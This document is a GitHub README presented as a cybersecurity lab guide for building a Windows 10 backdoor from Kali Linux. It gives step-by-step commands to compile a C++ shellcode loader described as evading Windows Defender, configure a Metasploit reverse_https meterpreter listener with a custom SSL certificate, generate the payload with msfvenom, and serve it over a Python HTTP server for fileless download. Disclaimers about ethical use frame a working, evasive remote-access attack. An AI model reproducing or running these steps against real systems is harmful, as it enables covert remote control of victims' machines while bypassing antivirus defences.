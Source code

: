 # Cyber Security
Cyber Security Lab Experiences by Fabio Felgueiras

Please note that this text contains references to potentially sensitive activities and materials.
It is important to use ethical hacking techniques responsibly and within legal boundaries.

In this example, i will demonstrate the use of Kali Linux 2023.2 to create a Windows 10 backdoor for ethical hacking purposes.

The following tools were utilized:
   - OpenSSL: Used to create the certificate.
   - msfconsole: Employed to create the listener and receive communication from the Windows machine.
   - msfvenom: Utilized to create the payload file.
   - Python: Used to create the HTTP server for payload delivery.
   - C++: Employed to create the Windows .exe file (backdoor.cpp).

For the coding of backdoor.cpp in C++, I referenced and customized code developed by TheD1rkMtr to suit my objectives. 
The code can be found at https://github.com/TheD1rkMtr/Shellcode-Hide/tree/main.

To ensure the executable is not detected as a virus, I combined the file SimpleLoader.cpp, which is flagged by Windows Defender and antivirus software, with the FilelessShellcode.cpp. This approach allows for the download of the payload on a remote machine, preventing detection. Additionally, SSL encryption with a custom certificate was implemented to secure the communication of the backdoor and prevent data detection.

It is essential to approach ethical hacking responsibly, adhering to legal frameworks and guidelines.

If you have any further questions or need clarification, feel free to ask!


Windows 10 Backdoor Creation

In Kali >

1- Download

    git clone https://github.com/Blive77/cybersecurity/
    cd cybersecurity
    
2- Compile backdoor.cpp

    x86_64-w64-mingw32-g++ --static -o backDoorTest.exe backdoor.cpp -fpermissive -lws2_32
      
3- Create custom SSL/TLS certificate 
    https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html

    openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
    cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
    rm -f www.example.com.key  www.example.com.crt
    
      
4- Config the msfconsole Listener

    msfconsole
    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_https
    set LHOST 0.0.0.0
    set LPORT 3333
    set HandlerSSLCert www.example.com.pem
    set StagerVerifySSLCert true
    set HandlerSSLCert /home/kali/cybersecurity/www.example.com.pem
    exploit
   
    
5- Create the Payload with msfvenom in Kali linux

   In my case:
   - Host IP= 192.168.235.132  
   - Host Port= 3333
   - Path To cert file= /home/kali/cybersecurity/www.example.com.pem
      
    msfvenom -p windows/x64/meterpreter/reverse_https lhost=(Host IP) lport=(Host Port) HandlerSSLCert=(Path To cert file) StagerVerifySSLCert=true -f raw > load.bin
    
   
6- Setup the http webserver for Payload deliver (important to do this in the same folder the payload was created)

    python -m http.server
    
In Windows >
    
1- Execute the File created in point (2) "backDoorTest.exe"
    
    backDoorTest.exe ( can be execute with paramters IP, Port and PayLoad File ) 
 
